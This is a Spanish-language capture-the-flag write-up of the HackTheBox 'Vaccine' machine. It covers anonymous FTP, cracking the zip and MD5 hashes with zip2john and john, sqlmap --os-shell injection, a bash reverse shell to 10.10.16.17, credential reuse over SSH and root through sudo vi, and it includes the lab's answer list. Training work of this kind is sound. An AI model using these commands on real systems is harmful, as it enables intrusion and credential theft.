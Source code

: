 1)Además de SSH y HTTP, ¿qué otro servicio está alojado en esta caja?
	ftp

2)Este servicio puede configurarse para permitir el inicio de sesión con cualquier contraseña para un nombre de usuario específico. ¿Cuál es ese nombre de usuario?
	anonymous

3)¿Cuál es el nombre del archivo descargado a través de este servicio?
	backup.zip

4)¿Qué script viene con el conjunto de herramientas John The Ripper y genera un hash a partir de un archivo zip protegido por contraseña en un formato que permite intentos de crackeo?
	zip2john

5)¿Cuál es la contraseña del usuario administrador del sitio web?
	qwerty789

6)¿Qué opción se puede pasar a sqlmap para intentar obtener la ejecución de comandos a través de la inyección sql?
	--os-shell

7)¿Qué programa puede ejecutar el usuario postgres como root usando sudo?
	vi

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.163.23
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.163.23 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.129.163.23 -oN target
```

![[Vaccine4.png]]

![[Vaccine1.png]]

![[Vaccine2.png]]

![[Vaccine3.png]]
*TTL:* Linux
*Puertos:*
`21`FTP | Vulnerabilidad con usuario anonymous
`22`SSH
`80`Apache/HTTP

--------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Vaccine5.png]]
No da ninguna informacion relevante

----------------
# Pagina web

![[Vaccine11.png]]

----
# Ingreso a [[ftp]] con usuario anonymous

`ftp 10.129.163.23 -p 21`
Entramos al servicio de ftp y descargamos el unico archivo con `get` que se llama backup.zip
![[Vaccine6.png]]

-------
# Sacamos el hash del archivo zip con [[zip2john]] y crackeamos contraseña con [[john]]

Intentamos descomprimir el archivo [[unzip]] `unzip backup.zip`
![[Vaccine7.png]]
Tiene contraseña asi que no lo podemos descomprimir. Usamos [[zip2john]] para sacarle el hash al archivo y luego con [[john]] crackeamos la contraseña

```shell
zip2john backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```

![[Vaccine8.png]]
 Nos da que la contraseña del backup.zip es ``741852963``
 
Ahora descomprimimos y buscamos en los archivos que nos da si tiene algun tipo de contraseña para logearnos al panel de la web
Con [[unzip]] ``unzip backup.zip`` descomprimimos y con [[cat]][[grep]] `cat index.php | grep -i password` buscamos en los archivos si tenia contraseñas
![[Vaccine9.png]]
Nos dice que el usuario es admin y la contraseña esta en md5 2cb42f8734ea607eefed3b70af13bbd3

#### Crackeamos la contraseña que esta en md5 con [[john]]
``john -w=/usr/share/wordlists/rockyou.txt --format=raw-md5 md5 ``            | IMPORTANTE USAR el parametro de --format por que si no no crackea la contraseña
![[Vaccine10.png]]
Contraseña: ``qwerty789``
Ponemos los datos de logeo y ya estamos adentro

-------
# SQLI con [[sqlmap NO USAR]] y mandamos una [[Reverse shell]]

Al poner una ' en la parte de search nos aparece este error

![[Vaccine12.png]]
Por esto que dice `ilike` sabemos que es [[postgresql]] ya que es un error caracteristico de esta base de datos
Pero si probamos con otra inyeccion por ejemplo ``' or 1=1-- -``  ``o ' or 1=2-- -`` no nos aparece nada
##### Esto es lo que pudimos sacar manualmente, a partir de aca usamos sqlmap que la verdad no lo queria usar, pero no encontre como mandar una revershell a traves de una sqli para hacer manual el proceso, asi que seguimos los pasos del writeup


```
ACLARACION IMPORTANTE: En la parte de cookie, poner el que tenga cada uno, desde la pagina logeado como administrador apretar CTRL + SHIFT + I y ver las cookies
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3        / Primero usar este comando que va a hacer el analisis
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3 --os-shell           /Agregando el parametro de os shell, nos va a dejar ejecutar comandos
bash -c 'bash -i >& /dev/tcp/10.10.16.17/443 0>&1'                 / Este es el comando que vamos a poner para usar la revershell
```
Recordar estar en escucha con [[nc -nlvp 443]] para la [[Reverse shell]]
El cookie seria el value de PHPSESSID
![[Pasted image 20250629144142.png]]

![[Vaccine14.png]]

![[Vaccine13.png]]

-------
# Conseguimos credenciales para conectarnos por [[ssh]]

##### Algo a tener en cuenta es que es muy inestable la maquina, todo el tiempo se me iba la conexion y tenia que volver a mandar la [[Reverse shell]], por que no hice [[Tratamiento de la TTY]] ya que cada 30-60 segundos se me iba la conexion

Desde la carpeta /var/www/html vamos a usar el comando `grep -riE "password|.*pasword|password.*"` para buscar posibles contraseñas

![[Vaccine16.png]]
*Resultado*
dashboard.php:	 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
Probamos las contraseñas que usa para la base de datos postre en ssh y pudimos entrar, asi que sabemos que repite las credenciales que usa

--------
# Nos conectamos por [[ssh]]

``ssh postgres@10.129.163.241`` y ponemos de contraseña `P@s5w0rd!`
![[Vaccine17.png]]

-----
# [[Tratamiento de la TTY]]

-----

# Escalada de privilegios con [[Abuso de Sudo]]

```shell
sudo -l
```

![[Vaccine18.png]]
Vemos que todos podemos ejecutar el binario /bin/vi /etc/postgresql/11/main/pg_hba.conf

Vemos que vulnerabilidad hay en la pagina de [GTFOBINS](https://gtfobins.github.io/gtfobins/vi/#sudo)

![[Vaccine22.png]]

Asi que abrimos con ``sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`` el binario para abrirlo como root. Para posteriormente salir del vi ejecutando una bash

![[Vaccine19.png]]

Desde el vi apretamos `:` en el teclado y vamos a poner estos dos comandos
```
:set shell=/bin/sh
:shell
```
![[Vaccine20.png]]

Y listo ya tenemos la bash como root, ahora solo queda ver las flags


![[Vaccine21.png]]


-------
# Creditos
Writeup Oficial HackTheBox
Writeup de [wetofu](https://wetofu.github.io/ctf/writeup/htb/htb-vaccine/)
